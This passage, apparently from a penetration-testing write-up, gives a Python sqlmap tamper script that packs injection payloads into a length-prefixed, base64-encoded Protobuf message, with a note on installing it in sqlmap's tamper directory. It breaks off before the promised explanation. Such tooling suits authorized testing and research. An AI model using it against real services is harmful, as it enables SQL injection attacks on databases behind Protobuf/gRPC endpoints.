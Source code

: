 ```py
#!/usr/bin/env python

from lib.core.data import kb
from lib.core.enums import PRIORITY

import base64
import struct
import search_pb2

__priority__ = PRIORITY.HIGHEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    retVal = payload

    if payload:
        # Instantiating objects
        products = search_pb2.Product()
        
        p = products.product.add()
        p.name = payload
        p.quantity = 1

        # Serializing the string
        serializedString = products.SerializeToString()
        serializedString = b'\x00' + struct.pack(">I",len(serializedString)) + serializedString

        # Encoding the serialized string in base64
        b64serialized = base64.b64encode(serializedString).decode("utf-8")
        retVal = b64serialized

    return retVal
```

To make it work we moved the tamper in the sqlmap tamper directory `/usr/share/sqlmap/tamper/` along with the Protobuf compiled library.

Here the logic behind the tamper workings:
